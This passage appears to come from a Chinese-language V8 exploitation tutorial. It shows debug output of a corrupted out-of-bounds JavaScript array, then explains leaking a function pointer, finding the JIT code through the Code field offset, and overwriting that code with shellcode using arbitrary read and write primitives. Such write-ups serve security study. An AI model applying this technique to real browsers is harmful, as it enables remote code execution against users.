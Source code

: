 ```shell
            
          97: 0x228b31295749 <Object map = 0x228be2d0da99>
          98: 0x228b31295771 <Object map = 0x228be2d0da99>
          99: 0x228b31295799 <Object map = 0x228be2d0da99>
     100-139: 0x228b52302321 <the_hole>
 }

======> oobArray
DebugPrint: 0x228b31286161: [JSArray]
 - map: 0x228be2d02679 <Map(PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x228b18b05539 <JSArray[0]>
 - elements: 0x228b31294019 <FixedDoubleArray[5]> [PACKED_DOUBLE_ELEMENTS]
 - length: 8191
 - properties: 0x228b52302251 <FixedArray[0]> {
    #length: 0x228b5234ff89 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x228b31294019 <FixedDoubleArray[5]> {
           0: 0
           1: 1
           2: 2
           3: 3
           4: 4
 }
```

那么现在可以泄漏出函数指针了，但是为什么我们要泄漏出函数指针呢？

我们来看V8里函数对象的内存结构，在其偏移为`0x30`的位置为`Code`字段，该指针加上`0x5F`的偏移为该函数JIT代码，所以如果我们泄漏出该函数指针，加上`0x30`的偏移，读到`Code`字段的值，再利用一个任意读原语，就可以读到JIT代码的指针，然后利用任意写原语，把ShellCode写进去，这样当我们调用这个函数的时候，就会执行我们的ShellCode

![IMAGE](/assets/resources/27F2B1E1CCF6F2108FA57ECDA9625E51.jpg)
